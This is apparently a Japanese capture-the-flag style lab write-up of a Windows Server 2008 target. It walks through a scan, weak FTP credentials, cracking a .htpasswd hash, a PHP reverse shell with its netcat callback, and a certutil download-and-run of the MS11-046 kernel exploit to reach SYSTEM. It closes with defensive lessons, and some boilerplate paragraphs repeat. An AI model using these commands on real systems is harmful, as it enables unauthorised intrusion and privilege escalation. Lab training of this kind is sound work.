

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Windows |
| 難易度 | 記録なし |
| 攻撃対象 | FTP と HTTP Basic 認証 Web アプリ |
| 主な侵入経路 | FTP 認証情報発見 → .htpasswd クラック → PHP リバースシェル |
| 権限昇格経路 | MS11-046 (CVE-2011-1249) カーネルエクスプロイト → SYSTEM |

## 認証情報

| ユーザー名 | パスワード | 発見元 |
|----------|----------|--------|
| admin    | admin    | FTP (zFTPServer) |
| offsec   | elite    | .htpasswd を John でクラック |

## 偵察

---
💡 なぜ有効か
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.178.46:21
Open 192.168.178.46:242
```

```bash
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
242/tcp  open  http          Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
|_http-title: 401 Authorization Required
| http-auth:
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
3145/tcp open  zftp-admin    zFTPServer admin
3389/tcp open  ms-wbt-server Microsoft Terminal Service
```

## 初期足がかり

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

FTP匿名ログインでアカウントディレクトリが確認できた:

```bash
cat accounts/backup/.listing
```

```bash
total 4
----------   1 root     root          764 Jul 10  2020 acc[Offsec].uac
----------   1 root     root         1030 Jul 10  2020 acc[anonymous].uac
----------   1 root     root          926 Jul 10  2020 acc[admin].uac
```

`admin:admin` でログインに成功し、Webルートが露出していた:

```bash
ftp $ip
# admin:admin でログイン
ftp> ls
```

```bash
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
```

`.htpasswd` に MD5crypt ハッシュが含まれていた:

```bash
cat .htpasswd
```

```bash
offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0
```

```bash
echo '$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0' > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```bash
elite            (?)
1g 0:00:00:00 DONE (2026-03-09 00:27)
```

`offsec:elite` でWebアプリに認証成功。FTP経由でWebルートに書き込み可能だったため、PHPリバースシェルをアップロード:

https://github.com/ivan-sincek/php-reverse-shell

```bash
nc -lvnp 4444
```

```bash
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.46] 49174
SOCKET: Shell has connected! PID: 1100
Microsoft Windows [Version 6.0.6001]

C:\wamp\bin\apache\Apache2.2.21>
```

local.txt取得:

```bash
c:\Users\apache\Desktop>type local.txt
8f58872cf8fd5b801fcc334dcb29d8c6
```

💡 なぜ有効か
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## 権限昇格

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

`systeminfo` で Windows Server 2008 SP1 かつホットフィックスが一切適用されていないことが判明:

```bash
c:\Users\apache\Downloads\win_tool>systeminfo
```

```bash
OS Name:    Microsoft Windows Server 2008 Standard
OS Version: 6.0.6001 Service Pack 1 Build 6001
System Type: X86-based PC
Hotfix(s):  N/A
```

MS11-046 (CVE-2011-1249) が適用可能 — エクスプロイトバイナリがローカルに存在した:

```bash
locate MS11-046
```

```bash
/home/n0z0/tools/windows/windows-kernel-exploits/MS11-046/ms11-046.exe
```

転送して実行:

```bash
# 攻撃側
python3 -m http.server 8001

# ターゲット側
certutil -urlcache -split -f http://192.168.45.166:8001/ms11-046.exe ms11-046.exe
ms11-046.exe
```

```bash
c:\Users\Administrator\Desktop>type proof.txt
978ccf87a8064985b1a24df3f8417959
```

💡 なぜ有効か
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## まとめ・学んだこと

- FTPや管理サービスでデフォルト・弱い認証情報 (admin:admin) を使用しない。
- `.htpasswd` ファイルはFTPでアクセス可能なWebルート外に置くか、読み取り権限を制限する。
- セキュリティパッチを速やかに適用する — 未パッチの Windows Server 2008 は容易に悪用可能。
- WebルートへのFTP書き込みアクセスを制限し、Webシェルのアップロードを防ぐ。

### Attack Flow

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。



## 参考文献

- CVE-2011-1249 (MS11-046): https://nvd.nist.gov/vuln/detail/CVE-2011-1249
- MS11-046 Exploit: https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046
- PHP Reverse Shell (ivan-sincek): https://github.com/ivan-sincek/php-reverse-shell
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
- John the Ripper: https://www.openwall.com/john/
